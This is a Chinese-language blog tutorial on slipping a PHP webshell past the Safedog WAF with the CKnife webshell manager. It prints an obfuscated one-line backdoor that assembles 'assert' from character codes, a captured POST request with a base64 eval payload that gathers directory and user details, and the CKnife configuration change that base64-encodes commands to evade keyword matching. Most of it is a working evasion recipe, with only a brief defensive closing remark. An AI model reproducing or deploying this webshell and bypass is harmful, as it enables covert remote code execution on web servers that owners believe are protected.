






## 0x00 前言

这篇文章之前写过，由于博客关闭，重写一遍。

由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，本博主不为此承担任何责任。

> 主要思路就是讲工具传输的内容加密，绕过WAF的匹配。

所需要的环境：

* Windows Server 2003
* Safe dog 4.0 正式版
* CKnife 1.0 Release
* BurpSuite 1.6
* ByPass 一句话木马一枚

Bypass Shell 具体可以点击这里寻找：[Bypass Shell](https://code.csdn.net/payloads/webshell/tree/master/PHP/20170526_bypass)

`Shell Code` 如下：

```php
<?php
$___Ss = chr((97 ^ 1)+1);  //[a]
$___Ss .=chr((115 ^ 1)+1); //[s]
$___Ss .=chr((115 ^ 1)+1); //[s]
$___Ss .=chr((101 ^ 1)+1); //[e]
$___Ss .=chr((114 ^ 0)); //[r]
$___Ss .=chr((116 ^ 0)); //[t]
$___Ss($_POST['username']);
```

## 0x01 普通传输模式分析

首先我们在WAF开启的情况下直接连接：


接着为了方便分析，我们为当前条目添加上一个代理，通过`Burp`来分析与服务器端木马的交互数据。



双击进行连接后，数据包到了我们的Burp中：



可以看到已经被`WAF`拦截了：



那么我们深知，手工的话是不会被拦截的，为什么呢？

手工截图：



## 0x02 站在WAF的角度考虑

先来看看数据包：

```
POST /3.php HTTP/1.1
User-Agent: Java/1.8.0_131
Host: 192.168.1.103
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Proxy-Connection: keep-alive
Content-type: application/x-www-form-urlencoded
Content-Length: 680

username=@eval(base64_decode($_POST[action]));&action=QGluaV9zZXQoImRpc3BsYXlfZXJyb3JzIiwiMCIpO0BzZXRfdGltZV9saW1pdCgwKTtAc2V0X21hZ2ljX3F1b3Rlc19ydW50aW1lKDApO2VjaG8oIi0%2BfCIpOzskRD1kaXJuYW1lKCRfU0VSVkVSWyJTQ1JJUFRfRklMRU5BTUUiXSk7aWYoJEQ9PSIiKSREPWRpcm5hbWUoJF9TRVJWRVJbIlBBVEhfVFJBTlNMQVRFRCJdKTskUj0ieyREfVx0IjtpZihzdWJzdHIoJEQsMCwxKSE9Ii8iKXtmb3JlYWNoKHJhbmdlKCJBIiwiWiIpIGFzICRMKWlmKGlzX2RpcigieyRMfToiKSkkUi49InskTH06Ijt9JFIuPSJcdCI7JHU9KGZ1bmN0aW9uX2V4aXN0cygncG9zaXhfZ2V0ZWdpZCcpKT9AcG9zaXhfZ2V0cHd1aWQoQHBvc2l4X2dldGV1aWQoKSk6Jyc7JHVzcj0oJHUpPyR1WyduYW1lJ106QGdldF9jdXJyZW50X3VzZXIoKTskUi49cGhwX3VuYW1lKCk7JFIuPSIoeyR1c3J9KSI7cHJpbnQgJFI7O2VjaG8oInw8LSIpO2RpZSgpOw%3D%3D
```

分析出以下几点可疑行为：
* 首先普通用户的UserAgent肯定是常见的终端标识，那么数据包中的`User-Agent`就可能成为WAF的拦截对象
* username参数的值非常可疑，因为有`eval`、`base64_decode`、`$_POST`等标识。

随之我们根据`Shell Code`与`数据包`来分析代码的执行流程：

当我们的`username=@eval(base64_decode($_POST[action]));`传给服务器后，又开辟了一个参数再传递给`eval`，在我们看来都是多此一举的，我们只要直接把数据传递给`username`即可。

我在此没有发现能够更改这种传输方式，没有去看源码。

最终我通过了另一种方式去更改传递数据。

## 0x03 Just Do it

先看看Cknife的配置文件`Config.ini`说明：

```
PARAM1=z1         			       参数1 
PARAM2=z2         			       参数2 
PHP_BASE64=1   				       当为PHP时，Z1，Z2参数是否开启自动base64加密，如果想定义自己的加密方式则关闭设置为0 
PHP_MAKE=@eval(base64_decode($_POST[action])); 生成方式，这里可以不用该方式，可以用你任何想要的方式 
```
最关键的就是`PHP_MAKE`参数了，我们将其改成base64编码后的结果。

```
PHP_BASE64=1
PHP_MAKE=ZXZhbChiYXNlNjRfZGVjb2RlKCRfUE9TVFthY3Rpb25dKSk\=
```
这里多了一个`\`，是jar程序自己转码的。读者可以将此`code`去`base64_decode`一下，看看是不是 `@eval(base64_decode($_POST[action]));`

那么此时是否真的能够Bypass呢？

NO NO NO，因为我们的Shell Code并没有解码功能。

更改后如下：

```php
<?php
$___Ss = chr((97 ^ 1)+1);  //[a]
$___Ss .=chr((115 ^ 1)+1); //[s]
$___Ss .=chr((115 ^ 1)+1); //[s]
$___Ss .=chr((101 ^ 1)+1); //[e]
$___Ss .=chr((114 ^ 0)); //[r]
$___Ss .=chr((116 ^ 0)); //[t]
$___Ss(base64_decode($_POST['username']));
```

传递过去后在服务器端其实运行的代码可以这么理解为：
```php
<?php
$___Ss = chr((97 ^ 1)+1);  //[a]
$___Ss .=chr((115 ^ 1)+1); //[s]
$___Ss .=chr((115 ^ 1)+1); //[s]
$___Ss .=chr((101 ^ 1)+1); //[e]
$___Ss .=chr((114 ^ 0)); //[r]
$___Ss .=chr((116 ^ 0)); //[t]
$___Ss(base64_decode('ZXZhbChiYXNlNjRfZGVjb2RlKCRfUE9TVFthY3Rpb25dKSk=');
```

解码后是：`$___Ss(@eval(base64_decode($_POST[action])))`

再次简化为：`assert(@eval(base64_decode($_POST[action])))`

那么现在你就应该可以明白了，我们的Cknife传出的全部都是Base64编码，从而绕过WAF对数据包敏感词汇的匹配。

> 个人认为Base64目前是最为方便的传输方式，因为该传输行为与开发人员极其相似，例如：图片base64传输，还有我们`Shell Code`中使用的参数，也是开发人员经常用到的 `username`

此时更改好后我们去try一下 ～



看来已经成功了。

查看进程：



图中选中的进程`SafeDogSiteApache.exe`，就是WAF了，一切都没有拦截。

## 0x04 最后的思考

如果想做到真正的安全，还是要深入行为查杀，当前的WAF不是很强大，基本上通过匹配数据包的内容已经无法满足防护的需求了。

因为当前的传输方式是通过正常的手法去传输的。

下一次升级可以考虑进行各种可能的解码…… 不过只是亡羊补牢的做法罢了。

最终还是要加强木马的查杀，相关文章[脚本木马查杀原理的简单探讨](https://zhuanlan.zhihu.com/p/27148719)

由于文章比较敏感，就不在知乎发布了。 感谢阅读，微信公众号：`知安小酒馆` 欢迎关注 ！

我的微信：Guest_Killer_0nlis


